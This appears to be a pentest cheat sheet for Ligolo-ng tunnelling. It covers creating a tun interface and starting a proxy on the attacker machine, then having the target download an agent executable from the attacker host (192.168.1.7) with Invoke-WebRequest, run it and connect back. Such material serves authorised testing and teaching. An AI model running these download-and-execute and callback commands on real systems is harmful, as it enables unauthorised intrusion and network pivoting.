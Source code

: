 ### Create Ligolo Tunnel Interface

#### • Create the Ligolo tunnel interface on the attacker machine:
```powershell
ip tuntap add user root mode tun ligolo
```
#### • Confirm the interface is created:
```powershell
ifconfig
```
#### • Activate the tunnel interface:
```powershell
ip link set ligolo up
```
#### • Confirm the interface is active:
```powershell
ip link show ligolo
```

### Start Local Proxy Server
#### • Start the Ligolo-ng proxy using a self-signed certificate:
```powershell
ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

#### • Alternatively, you can use:
```powershell
./proxy -selfcert -laddr 0.0.0.0:443
```
#### • Verify that the proxy is listening on the specified port:
```powershell
netstat -nltup | grep 443
```
---

## 🧭 Target Box Setup (192.168.1.71)

### Download and Execute Agent
#### • Download the Ligolo-ng agent on the target machine:
```powershell
powershell Invoke-WebRequest "http://192.168.1.7/ligolo-ng/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```
### Run Agent
#### • Execute the Ligolo-ng agent:
```powershell
agent.exe
```
#### • Connect to the proxy server from the agent:
```powershell
./agent -connect 192.168.1.7:443 -ignore-cert
```
